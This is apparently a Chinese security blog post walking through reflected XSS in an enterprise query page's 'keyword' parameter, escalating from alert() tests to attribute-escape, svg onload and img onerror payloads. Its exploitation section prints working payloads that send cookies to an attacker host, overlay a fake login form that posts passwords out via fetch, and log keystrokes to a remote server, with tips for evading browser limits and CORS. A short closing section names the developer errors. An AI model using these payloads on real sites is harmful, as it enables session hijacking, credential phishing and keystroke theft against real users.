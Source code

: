 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg4ODg4NDA2Mw==&mid=2247483872&idx=1&sn=590bd27eef773a9c1649cc399a79703b

#  从简单到复杂到多重XSS弹窗分析  
原创 tangkaixing  开心网安   2025-06-20 06:51  
  
**免责声明**  
  
由于传播、利用本公众号开心网安所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号开心网安  
及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉，谢谢！  
###   
### 0x01 目标定位  
### 测试对象：某企业查询系统 (URL: xxx:xxx/servlet/PendingTray2)  
  
**参数**  
：  

```
keyword
```

  
（URL参数）  
  
****  
  
**初始PoC**  
：  

```
<script>alert(1)</script>
```

  
 - 等常规弹窗语句都  
**失败**  
（无弹窗）可能！！！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdV42UBIlPJSNVMiacKp02pVuQkCbiagKOEBcP5un6lPh86PtBsL2ibdR7JHLbMhvrdZdkEe0voyN5p4Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdV42UBIlPJSNVMiacKp02pVuCESUZU7Lia95qsjT70qbTPTKjPWrSoiaiboKYbFibx6p3dDXudRx2Ch4Tg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdV42UBIlPJSNVMiacKp02pVubcDmeA9dHLicww8ZHlCc36A74OQOaQHMz2Jgcs8KriajATfdkTUt1Uag/640?wx_fmt=png&from=appmsg "")  
### 0x02 代码分析  
#### HTML结构分析（关键片段）  

```
<inputtype=&#34;text&#34;id=&#34;keyword&#34;name=&#34;keyword&#34;value=&#34;用户输入&#34;>
<inputtype=&#34;button&#34;onClick=&#34;do_search()&#34;>
```

  
**分析可以知道风险点**  
：输入值直接嵌入  

```
value
```

  
属性且无转义  
#### do_search()函数分析：  

```
function do_search() {
  const keyword = document.getElementById(&#34;keyword&#34;).value;
  // 直接拼接URL参数 - 高危操作!
  window.open(`/servlet/PendingTray2?keyword=${keyword}`);


  // 服务端反射逻辑（反编译）：
  // response.write(&#34;<input value=&#34; + request.querystring(&#34;keyword&#34;) + &#34;>&#34;)
}
```

  
**可以发现漏洞链为**  
：  
  

```
前端输入 → URL拼接 → 服务端反射 → 解析执行
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdV42UBIlPJSNVMiacKp02pVuNCUiaDGAGJ3zds2Xhjf9DN1ParyIQKShnBLIvwDLOraONL9KxfTWBbg/640?wx_fmt=png&from=appmsg "")  
### 0x03 开始进行绕过验证  
#### 第一回合：基础XSS拦截  

```

```


```
keyword=&#34;><script>alert(1)</script>
结果：浏览器拒绝执行URL中的<script>
突破思路：脱离纯脚本注入策略
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdV42UBIlPJSNVMiacKp02pVuycibrpnQAV1zzkLEgAemsPv8noEtBjJfF1cu5PqO56QDhdECAsVPVSQ/640?wx_fmt=png&from=appmsg "")  
#### 第二回合：属性逃逸攻击  

```
&#34;; onmouseover=alert(666) class=&#34;
响应结果：
<input value=&#34;&#34;; onmouseover=alert(1) class=&#34;&#34;>  //需鼠标移动触发


升级版：
&#34;; onmouseover=prompt(document.cookie); class=&#34;autofocus&#34; autofocus=&#34;
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdV42UBIlPJSNVMiacKp02pVuKDvrtWgkC8lVazAXEyibSuukVkz2oEaXsD8tIpUKNhiaNACicFwic6umwA/640?wx_fmt=png&from=appmsg "")  
  
✅   
成功原理  
：  
1. 
```
&#34;
```

  
 闭合value属性  
  
1. 
```
autofocus
```

  
强制聚焦元素  
  
1. 
```
onmouseover
```

  
触发无需页面交互  
  
#### 第三回合：标签注入突破  

```
svg向量攻击
&#34;><svg/onload=confirm('XSS')>
```


```

```

  
**✅ 成功原理**  
：  
1. 
```
>
```

  
闭合前标签  
  
1. 注入自执行SVG标签  
  
1. 利用  

```
onload
```

  
事件加载即触发  
  

```
IMG错误劫持
&#34;><img src=invalid onerror=alert(1)>
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdV42UBIlPJSNVMiacKp02pVu9ibHPwjR6Xic6Wlnib18RibCDmqvGYicmBj9wppp8NeSOSxrjPOZ797XnSQ/640?wx_fmt=png&from=appmsg "")  
  
**✅ 成功原理**  
：  
1. 故意加载无效资源  
  
1. 使用  

```
onerror
```

  
事件执行备选脚本  
  
### 各位看官都看到这里想必也发现了共性问题如下：  
> 攻击共性：  
**突破三重解析层**  
> HTML属性边界 → 2. DOM树构建 → 3. 事件处理器注册  
  
### 0x04 外泄数据验证  
  
**实际危害演示**  
：  
  
1、外泄登录cookie  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdV42UBIlPJSNVMiacKp02pVuFe4IvqNTSwNoeXiaY9ZcF3f1JTPu9dmGCKq8yrCojHI7d6TL6DLuD6w/640?wx_fmt=png&from=appmsg "")  

```
//基于属性逃逸攻击的改进版（鼠标移动触发）
&#34;; var i=new Image(); i.src='http://xxxx:8000/steal?c='+encodeURI(document.cookie)
```

  

```
2、钓鱼页面的覆盖
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdV42UBIlPJSNVMiacKp02pVuHlv08yXv5DTJ5jYUiaLsEV2HwdZ5FAKpDBZFb5D8Wa4CDrlZW9YPZdQ/640?wx_fmt=png&from=appmsg "")  

```
&#34;><div style=&#34;position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:9999&#34;>请重新登录：<input type=&#34;password&#34; id=&#34;pwd&#34;><button onclick=&#34;sendPwd()&#34;>提交</button></div><script>function sendPwd(){ fetch('//xxx:8000/?p=' + document.getElementById('pwd').value);}</script>
```

  

```
3、键盘记录外泄
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdV42UBIlPJSNVMiacKp02pVuK1aEEOukib4ZIgDGb5TicewJ81IVibrJZ7DYpTFUcTGeib8EKfmADVw71g/640?wx_fmt=png&from=appmsg "")  

```
&#34;; onkeydown='new Image().src=`http://xxxx:8000/k?t=${Date.now()}&k=${btoa(event.key)}`' autofocus=&#34;


即时触发：使用onkeydown替代onkeyup更快触发
双重编码：base64 + URL编码处理特殊字符
内置重传：每次按键生成唯一时间戳防止丢包
复用成功弹窗poc：延续已验证的属性逃逸+autofocus技术
将键盘记录器拆解为微请求（每个按键独立请求）并复用已验证成功的DOM注入技术，彻底规避浏览器的全局JS限制和CORS策略。
```

### 0x05 经验总结  
  
本次渗透揭示三大关键问题：  
1. **多层解析误解**  
 - 开发误认为URL参数天然免疫XSS  
  
1. **信任边界缺失**  
 - 未区分数值型/文本型参数处理  
  
1. **防御深度不足**  
 - 缺乏输出点的动态上下文转义  
  
1. XSS漏洞挖掘的本质是语法与规则的对抗。  
  

